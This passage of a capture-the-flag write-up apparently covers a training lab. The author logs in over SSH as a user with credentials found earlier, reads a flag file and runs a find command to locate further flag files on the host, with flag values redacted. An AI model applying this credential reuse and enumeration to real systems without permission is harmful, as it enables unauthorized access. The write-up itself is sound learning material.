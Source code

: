 ## STEP 5 <sub>(question 5)</sub>

I tryed to ssh with the dennis credential and it did work!!

```
# ssh dennis@10.10.251.164
dennis@10.10.251.164's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-1072-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

62 packages can be updated.
45 updates are security updates.


Last login: Wed Sep  7 08:45:47 2022 from 10.18.86.39
dennis@ip-10-10-251-164:~$ whoami
dennis
dennis@ip-10-10-251-164:~$ pwd
/home/dennis
dennis@ip-10-10-251-164:~$ ls -la
total 44
drwxr-xr-x 3 dennis dennis 4096 Sep  7 08:45 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1052 Sep  7 08:47 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Sep  7 08:45 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt <------- LOOK AT ME -------|
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo
dennis@ip-10-10-251-164:~$ cat flag1.txt

<redacted>
```
We are in the dennis home together with the first flag ;)

## STEP 6 <sub>(questions 6, 8 and 9)</sub>

Now I needed to find the other four flag. Actually three because apparently the flag 4 do not exist: 
_8. There is no fourth flag._

I runned this command:
```
dennis@ip-10-10-251-164:~$ find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
<redacted>
-rw-r--r-- 1 root   root      33 Feb 16  2019 /boot/grub/fonts/flagTwo.txt  <------- LOOK AT ME -------|
<redacted>
```
and I also had permission to read it. Great :D
